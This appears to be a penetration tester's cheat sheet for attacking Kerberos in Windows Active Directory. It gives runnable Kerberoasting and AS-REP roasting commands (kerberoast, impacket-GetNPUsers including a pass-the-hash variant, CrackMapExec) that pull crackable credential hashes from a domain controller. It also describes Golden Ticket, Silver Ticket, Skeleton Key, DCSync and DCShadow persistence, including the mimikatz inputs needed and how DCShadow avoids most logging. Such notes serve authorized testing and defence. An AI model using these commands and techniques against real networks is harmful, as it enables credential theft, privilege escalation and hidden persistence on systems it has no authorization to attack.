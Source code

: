 ## Kerberos

Reference: Attacking Kerberos - https://www.redsiege.com/wp-content/uploads/2020/08/Kerberoastv4.pdf

### Kerberoasting

Used after initial compromise to gain further privileges and credentials. Attacks service accounts
Requires valid domain user credentials with any permissions
Only user accounts tied to SPNs are viable for kerberoasting

    $ cd /opt/tools/porchetta/kerberoast

Look for vulnerable users via LDAP

    $ pipenv run kerberoast ldap  all <ldap_connection_url> -o ldapenum

Use ASREP roast against users in the ldapenum_asrep_users.txt file

    $ pipenv run kerberoast asreproast <DC_ip> -t ldapenum_asrep_users.txt

Use SPN roast against users in the ldapenum_spn_users.txt file

    $ pipenv run kerberoast spnroast <kerberos_connection_url> -t ldapenum_spn_users.txt

Command structure

    $ kerberoast ldap <type> <ldap_connection_url> <options>

Reference: https://github.com/skelsec/kerberoast

### Pass-the-Ticket

Process of stealing and reusing tickets by extracting them from the memory of compromised machines. 

### Over-the-Hash

Relies on rc4_hmac_md5 as Kerberos encryption type and using the user's NT hash instead of user's password to request tickets. If encryption type is AES then use AES key instead of NT hash. 

### Golden Ticket (Persistence)

A Golden Ticket is a special TGT (Ticket Granting Ticket) created by an attacker. Can be done offline. Requires: Target Long-Term Key, KDC LT Key to have valid PAC 
Required creation items when made with mimikatz: NT hash of Kerberos account (krbtgt), name of admin account, domain name, SID of admin account 

### Silver Ticket

Silver tickets are forged Service Tickets with custom PAC. Silver Tickets do NOT require krbtgt account and is more subtle than Golden Ticket. 
To find other SIDs: wmic useraccount get sid, name 

### Skeleton Key (Persistence) 

Allows anyone to authenticate as any user with the password 'mimikatz' - Anyone. Not just the tester 

### DCSync (Persistence) 

Utilizes the domain replication protocol to mimic a DC (requires Domain Admin or replication privileges) 

### DCShadow (Persistence) 

Reverses direction of replication, rendering the fake DC as almost invisible as no logs are created apart from Windows Event Log 5137 & 5141 (Creation of directory service object and deletion respectively) 

### ASREProast

Users list dynamically queried with an LDAP anonymous bind

    $ sudo impacket-GetNPUsers -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/' 

With a users file

    $ sudo impacket-GetNPUsers -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/' 

Users list dynamically queried with a LDAP authenticated bind (password)

    $ sudo impacket-GetNPUsers -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

Users list dynamically queried with a LDAP authenticated bind (NT hash)

    $ sudo impacket-GetNPUsers -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER' 

The Impacket script GetNPUsers (Python) can get TGTs for the users that have the property Do not require Kerberos preauthentication set.

### ASREProast - CME

$ sudo poetry run cme ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter

 


